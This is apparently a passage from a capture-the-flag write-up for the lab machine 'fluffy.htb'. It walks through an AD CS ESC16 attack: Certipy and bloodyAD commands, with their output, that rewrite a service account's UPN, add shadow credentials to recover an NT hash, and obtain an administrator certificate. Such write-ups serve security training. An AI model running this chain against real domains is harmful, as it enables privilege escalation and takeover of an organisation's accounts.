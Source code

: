 ### UPN Manipulation for ESC16

The ESC16 attack involves manipulating the User Principal Name (UPN) of the certificate service account to impersonate the administrator:

```bash
certipy account -k -dc-ip $IP -target $FQDN -user 'ca_svc' -upn 'administrator' update
```

**Results:**
```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

> **Command Explanation:**
- `account`: Manage user accounts
- `-k`: Use Kerberos authentication
- `-dc-ip`: Domain controller IP
- `-target`: Target machine
- `-user`: Target user account
- `-upn`: New User Principal Name
- `update`: Update the account
{: .prompt-info}

### Shadow Credentials on ca_svc

First, let's add shadow credentials to the `ca_svc` account:

```bash
bloodyAD -d fluffy.htb --host 10.129.14.248 -u p.agila -p prometheusx-303 add shadowCredentials ca_svc
```

**Results:**
```bash
[+] KeyCredential generated with following sha256 of RSA key: 54ed481b5c2354a8ae2b25b5b1b63940793a611ee3e62c1a5ed3fc17f2bdc4e7
[+] TGT stored in ccache file ca_svc_q7.ccache

NT: ca0f4f9e9eb8a092addf53bb03fc98c8
```

### Certificate Request with Administrator UPN

Now we can request a certificate using the modified UPN:

```bash
export KRB5CCNAME=ca_svc_q7.ccache
certipy req -k -dc-ip $IP -target $FQDN -ca 'fluffy-DC01-CA' -template 'User'
```

**Results:**
```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 16
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
